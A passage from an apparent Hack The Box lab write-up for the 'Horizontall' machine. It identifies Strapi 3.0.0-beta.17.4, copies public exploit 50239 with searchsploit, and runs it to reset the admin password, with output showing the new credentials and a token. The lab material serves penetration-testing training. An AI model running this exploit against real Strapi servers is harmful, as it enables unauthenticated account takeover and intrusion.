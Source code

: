 ![dark mode only](/assets/img/posts/htb/machines/linux/easy/horizontall/horizontall_5.png){: .dark .w-75 .shadow .rounded-10 w='1212' h='668' }

As we can see we have been able to identify that the version of strapi is `3.0.0-beta.17.4`.


Now that we know the version, we can select the correct exploit to use. In this case we will select `Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (Unauthenticated)` (50239.py). We can now mirror the exploit file by using the `-m` flag with `searchsploit` followed by the exploit's ID.

```zsh
0x3ds@kali $ searchsploit -m 50239

  Exploit: Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (Unauthenticated)
      URL: https://www.exploit-db.com/exploits/50239
     Path: /usr/share/exploitdb/exploits/multiple/webapps/50239.py
    Codes: N/A
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/0x3ds/htb/labs/machines/horizontall/50239.py
```

---
### Exploitation

With the exploit now in our current working directory and after reading through it to understand what it does, we can go ahead and execute it by passing the URL of the target as an argument.

```zsh
0x3ds@kali $ python3 50239.py http://api-prod.horizontall.htb

[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit
[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNzYwOTY2MjE3LCJleHAiOjE3NjM1NTgyMTd9.4YCpfiAcFLF7FwfFoxsqqDqiVb_b9dKiCNbZEkfU4EY
```
